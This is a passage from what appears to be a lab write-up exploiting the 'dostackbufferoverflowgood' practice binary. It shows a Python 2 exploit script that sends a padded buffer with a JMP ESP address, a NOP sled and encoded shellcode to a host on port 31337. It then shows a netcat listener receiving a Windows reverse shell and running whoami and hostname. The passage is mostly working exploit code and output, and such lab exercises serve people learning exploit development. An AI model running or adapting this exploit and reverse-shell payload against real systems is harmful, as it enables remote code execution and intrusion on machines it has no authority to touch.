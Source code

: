 ```python
    shellcode += b"\x48\xef\xed\x2a\xda\x74\xed\x25\xc7\x22\xba"
    shellcode += b"\x62\x39\x3b\x2e\x9f\x60\x95\x4c\x62\xf4\xde"
    shellcode += b"\xd4\xb9\xc5\xe1\xd5\x4c\x71\xc6\xc5\x88\x7a"
    shellcode += b"\x42\xb1\x44\x2d\x1c\x6f\x23\x87\xee\xd9\xfd"
    shellcode += b"\x74\xb9\x8d\x78\xb7\x7a\xcb\x84\x92\x0c\x33"
    shellcode += b"\x34\x4b\x49\x4c\xf9\x1b\x5d\x35\xe7\xbb\xa2"
    shellcode += b"\xec\xa3\xdc\x40\x24\xde\x74\xdd\xad\x63\x19"
    shellcode += b"\xde\x18\xa7\x24\x5d\xa8\x58\xd3\x7d\xd9\x5d"
    shellcode += b"\x9f\x39\x32\x2c\xb0\xaf\x34\x83\xb1\xe5"

    buffer = ""
    buffer += "A" * (offset - len(buffer))
    buffer += struct.pack("<I", jmp_esp)
    buffer += "\x90" * 20
    buffer += shellcode
    buffer += "\x90" * (bufferSize - len(buffer))
    buffer += "\n"

    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.10.129", 31337))
    s.send(buffer)

    s.close  

    print "\n Send buffer with size: " + str(len(buffer))

except:
    print "\n Could not connect"
```

```bash
luc@kali:~/dostackbufferoverflowgood$ python2 shell.py
```

```bash
luc@kali:~/dostackbufferoverflowgood$ sudo nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 192.168.10.129.
Ncat: Connection from 192.168.10.129:50233.
Microsoft Windows [Version 10.0.18363.900]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Users\User\Documents\dostackbufferoverflowgood>whoami
windev2004eval\user

C:\Users\User\Documents\dostackbufferoverflowgood>hostname
WinDev2004Eval
```

We successfully opened a reverse shell via our buffer overflow.
